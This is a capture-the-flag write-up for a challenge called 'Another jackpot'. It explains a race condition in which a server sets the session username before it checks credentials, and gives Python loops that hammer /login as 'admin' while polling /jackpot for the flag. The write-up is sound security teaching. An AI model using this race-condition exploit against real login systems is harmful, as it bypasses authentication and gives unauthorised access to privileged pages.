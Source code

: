 # Challenge `Another jackpot` Writeup

- Vulnerability: 
  - Time-of-check Time-of-use / Race condition
- Where:
  - `/login` and `/jackpot` endpoint
- Impact:
  - allows non-admin user access to admin-only endpoint

## Analyzing the server

This challenge consists in accessing the jackpot page as the admin revealing the flag.
The server allows for users to register and then login.
By sending a request to `/register` endpoint, the server redirects
to the login page and by sending a request to `/login` endpoint, the server redirects to the jackpot page.
Clicking this button will reveal a text `No luck... Maybe next time!`.  
By looking at the source code of the server, it's possible to see that the jackpot page only reveals the flag when the `current_session.username == 'admin'`.
```python
if current_session.username == 'admin':
        msg = FLAG
```
It's also revealed that momentarialy, during the login process, the variable `current_session.username` is set to the field `username` of the request form.
```python
current_session = get_current_session()
current_session.username = username
db.session.commit()
```

## Exploit

Since, the variable `current_session.username` is set without any confirmation from the database (only being reseted to `None` when it confirms that the user is not registered), it's possible to set this variable to `admin` by sending a request to `/login` endpoint with the field `username` equal to `admin` and some non-empty random `password`. 
```python
params = {
    'username': 'admin', 
    'password': '1234'
}

def try_login():
    while True:
        session.post(URL+"/login", data=params)
```
Using the `Process` entity from the multiprocessing library, send a request to `/jackpot` endpoint parallelly and hope that the `current_session.username` is still `admin` granting access to the flag `SSof{What_admin?}`.
```python
while True:
    r = session.get(URL+"/jackpot")
    match = re.search("SSof{.*}", r.text)
    if match:
        print(match.group(0))
        break
```

## Implementation

These code snippets and full implementation can be found [here](another_jackpot.py).

